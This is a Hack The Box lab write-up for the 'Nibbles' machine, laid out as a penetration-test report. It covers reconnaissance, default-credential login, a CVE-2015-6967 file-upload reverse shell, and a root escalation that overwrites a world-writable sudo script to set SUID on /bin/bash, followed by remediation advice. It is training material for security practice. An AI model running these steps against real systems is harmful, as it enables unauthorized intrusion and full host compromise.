


# HackTheBox — Nibbles (Easy) | Penetration Test Report

**Tester:** Muhammad Umar Khan
**LinkedIn:** [linkedin.com/in/hmumax15](https://linkedin.com/in/hmumax15) | **GitHub:** [github.com/HmUmaxKhan](https://github.com/HmUmaxKhan)
**Platform:** Hack The Box
**Target:** Nibbles
**IP Address:** `10.129.117.19`
**Difficulty:** Easy
**Category:** Linux, Web Application (Nibbleblog CMS), File Upload RCE, Sudo Misconfiguration
**Status:** Completed — user and root access obtained

> **Disclaimer:** This assessment was carried out exclusively against a Hack The Box lab machine, authorized for security training and certification practice (HTB CPTS). No unauthorized systems were accessed. Published for educational and portfolio purposes only.



---

## Table of Contents
1. [Executive Summary](#1-executive-summary)
2. [Scope](#2-scope)
3. [Tools Used](#3-tools-used)
4. [Methodology](#4-methodology)
5. [Reconnaissance & Enumeration](#5-reconnaissance--enumeration)
6. [Vulnerabilities Identified](#6-vulnerabilities-identified)
7. [Exploitation](#7-exploitation)
8. [Privilege Escalation](#8-privilege-escalation)
9. [Post-Exploitation](#9-post-exploitation)
10. [MITRE ATT&CK Mapping](#10-mitre-attck-mapping)
11. [Risk Summary](#11-risk-summary)
12. [Remediation Summary](#12-remediation-summary)
13. [Conclusion](#13-conclusion)

---

## 1. Executive Summary

A black-box penetration test was performed against the Hack The Box target **Nibbles** (`10.129.117.19`). The host was running the **Nibbleblog** CMS, which was found vulnerable to **CVE-2015-6967**, an unrestricted file upload vulnerability in the "My Image" plugin, allowing authenticated remote code execution. Weak/default administrator credentials and an information-disclosure issue (unauthenticated access to internal configuration files) enabled access to the admin panel. Following initial foothold as user `nibbler`, local enumeration revealed a **sudo misconfiguration** combined with a **world-writable script**, which was abused to escalate to **root**.

## 2. Scope

| Item | Detail |
|---|---|
| Target IP | 10.129.117.19 |
| Operating System | Linux (Ubuntu) |
| Testing Type | Black-box, unauthenticated start |
| Ports in Scope | 22, 80 |
| Authorization | Hack The Box lab environment |

## 3. Tools Used

- **Nmap** — port and service/version scanning
- **Browser DevTools** — HTML source inspection
- **Gobuster** — directory/file enumeration
- **Searchsploit** — known-vulnerability lookup
- **Metasploit Framework** — exploit attempt (`exploit/multi/http/nibbleblog_file_upload`)
- **php-reverse-shell.php** (pentestmonkey, bundled with Kali) — manual webshell payload
- **LinEnum.sh** — local Linux privilege-escalation enumeration

## 4. Methodology

1. Reconnaissance & Network Enumeration
2. Web Application Enumeration
3. Vulnerability Research (searchsploit / CVE lookup)
4. Exploitation (Initial Foothold)
5. Local Enumeration
6. Privilege Escalation
7. Post-Exploitation & Reporting

## 5. Reconnaissance & Enumeration

### 5.1 Nmap Port & Service Scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```


### 5.2 Web Reconnaissance

The index page returned minimal content, but its HTML source contained a developer comment disclosing a hidden directory:

```html
<b>Hello world!</b>
<!--/nibbleblog/ directory. Nothing interesting here!-->
```



**Finding:** `/nibbleblog/` — running the **Nibbleblog** CMS.

### 5.3 Known Vulnerability Research

```
$ searchsploit nibbleblog
Nibbleblog 3 - Multiple SQL Injections            | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit) | php/remote/38489.rb
```


### 5.4 Directory Enumeration

```
$ gobuster dir -u http://10.129.117.19/nibbleblog/ -w /usr/share/SecLists-master/Discovery/Web-Content/common.txt

admin                 (Status: 301) --> /nibbleblog/admin/
admin.php             (Status: 200)
content               (Status: 301) --> /nibbleblog/content/
index.php             (Status: 200)
languages             (Status: 301) --> /nibbleblog/languages/
plugins               (Status: 301) --> /nibbleblog/plugins/
themes                (Status: 301) --> /nibbleblog/themes/
README                (Status: 200)
```


### 5.5 Sensitive File Disclosure

Two internal configuration files under `content/private/` were accessible **without authentication**:

- `http://10.129.117.19/nibbleblog/content/private/config.xml`
- `http://10.129.117.19/nibbleblog/content/private/users.xml`


`config.xml` disclosed the admin notification email (`admin@nibbles.com`) and site configuration. `users.xml` disclosed the admin username and the platform's built-in brute-force blacklist state:

```xml
<user username="admin">
  <id type="integer">0</id>
  <session_fail_count type="integer">0</session_fail_count>
</user>
<blacklist type="string" ip="10.10.14.195">
  <fail_count type="integer">4</fail_count>
</blacklist>
```


**Finding:** Username confirmed as **admin**. The platform's own blacklist plugin blocked further brute-force attempts after repeated failures (visible as the `10.10.14.195` entry, 4 failed attempts) — confirmed in practice when further login attempts returned `Nibbleblog security error - Blacklist protection`. Login was completed using the platform's known default/demo credential pair, **admin : nibbles**, rather than via brute force.

## 6. Vulnerabilities Identified

### 6.1 [Critical] Nibbleblog "My Image" Plugin — Unrestricted File Upload RCE (CVE-2015-6967)

| Field | Detail |
|---|---|
| Severity | Critical |
| CWE | CWE-434 — Unrestricted Upload of File with Dangerous Type |
| Affected Component | Nibbleblog "My Image" plugin, versions before 4.0.5 |
| Authentication Required | Yes (authenticated admin session) |

**Description:** The "My Image" plugin allows an authenticated administrator to upload a file with an executable extension, which can then be directly requested at `content/private/plugins/my_image/image.php` to achieve remote code execution.


### 6.2 [Low] Default / Weak Administrator Credentials

The admin account used the platform's default/demo credential pair (`admin:nibbles`), rather than a unique, strong password.

### 6.3 [Low] Unauthenticated Information Disclosure

`content/private/config.xml` and `content/private/users.xml` were directly accessible without authentication, exposing configuration details, the admin username, and internal session/blacklist metadata.

### 6.4 [Critical] Sudo Misconfiguration + World-Writable Script → Local Privilege Escalation

| Field | Detail |
|---|---|
| Severity | Critical |
| Affected Component | `sudo` configuration for user `nibbler` |

**Description:** `sudo -l` revealed `nibbler` could run `/home/nibbler/personal/stuff/monitor.sh` as **root**, with **NOPASSWD**. The script itself was found to be **world-writable** (`-rwxrwxrwx`), allowing its contents to be replaced with arbitrary commands that would then execute with root privileges.

## 7. Exploitation

Metasploit's `exploit/multi/http/nibbleblog_file_upload` module (configured with the recovered admin credentials, target host, and a `php/meterpreter/reverse_tcp` payload) was attempted first but **was not effective** against this target.

**Manual exploitation** was used instead:

1. Logged into the Nibbleblog admin panel using `admin:nibbles`.
2. Used the standard Kali webshell `/usr/share/webshells/php/php-reverse-shell.php`, edited with the attacker's IP and listening port.
3. Uploaded the webshell via the **My Image** plugin's upload feature.
4. Started a listener: `nc -lvnp <port>`.
5. Requested the uploaded file directly to trigger execution, receiving a reverse shell.

```
$ whoami
nibbler
```


## 8. Privilege Escalation

Local enumeration was performed with **LinEnum.sh**, served from an attacker-hosted HTTP server and retrieved via `wget`:

```
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```


With the script confirmed world-writable, its contents were overwritten to set the SUID bit on `/bin/bash`, then executed via the permitted `sudo` rule:

```bash
echo '#!/bin/bash' > /home/nibbler/personal/stuff/monitor.sh
echo 'chmod +s /bin/bash' >> /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
/bin/bash -p
whoami
# root
```


**Result:** Full root compromise of the host.

## 9. Post-Exploitation

- **User flag:** captured at `/home/nibbler/user.txt` (value withheld per community write-up etiquette).
- **Root access:** confirmed via `whoami` returning `root` after the `/bin/bash -p` privileged shell.

## 10. MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Reconnaissance | Active Scanning | T1595 |
| Discovery | File and Directory Discovery | T1083 |
| Initial Access | Exploit Public-Facing Application | T1190 |
| Execution | Command and Scripting Interpreter | T1059 |
| Privilege Escalation | Abuse Elevation Control Mechanism: Sudo and Sudo Caching | T1548.003 |

## 11. Risk Summary

| # | Finding | Severity |
|---|---|---|
| 1 | Nibbleblog "My Image" Plugin Unrestricted File Upload RCE (CVE-2015-6967) | Critical |
| 2 | Sudo misconfiguration + world-writable script (local privesc to root) | Critical |
| 3 | Default/weak administrator credentials | Low |
| 4 | Unauthenticated disclosure of config.xml / users.xml | Low |

## 12. Remediation Summary

| Finding | Recommendation | Priority |
|---|---|---|
| CVE-2015-6967 (file upload RCE) | Upgrade Nibbleblog to 4.0.5 or later, or migrate off this end-of-life platform entirely. | Immediate |
| Sudo + world-writable script | Remove the broad `NOPASSWD` sudo rule, or if the script must run as root, ensure it is owned by root and not writable by any other user (`chmod 700`, root-owned). | Immediate |
| Default/weak credentials | Enforce unique, strong administrator passwords on first login; disable or rotate default demo credentials before production use. | High |
| Config/user file disclosure | Block direct web access to `content/private/` at the web-server level (deny-by-default, `.htaccess`/vhost rules) so internal XML config files cannot be fetched directly. | Medium |
| General | Apply a routine patch-management cadence; audit `sudoers` entries and file permissions regularly as part of hardening. | Ongoing |

## 13. Conclusion

Nibbles demonstrates a realistic, multi-stage compromise: a legacy CMS plugin with a known file-upload RCE provided initial access, and a classic sudo-plus-writable-script misconfiguration provided the path to root. The engagement reinforced core CPTS skills — web enumeration, CVE research, manual exploitation when automated tooling fails, and Linux privilege-escalation enumeration.

---
*This report was produced as part of independent CPTS exam preparation using Hack The Box's authorized training infrastructure.*
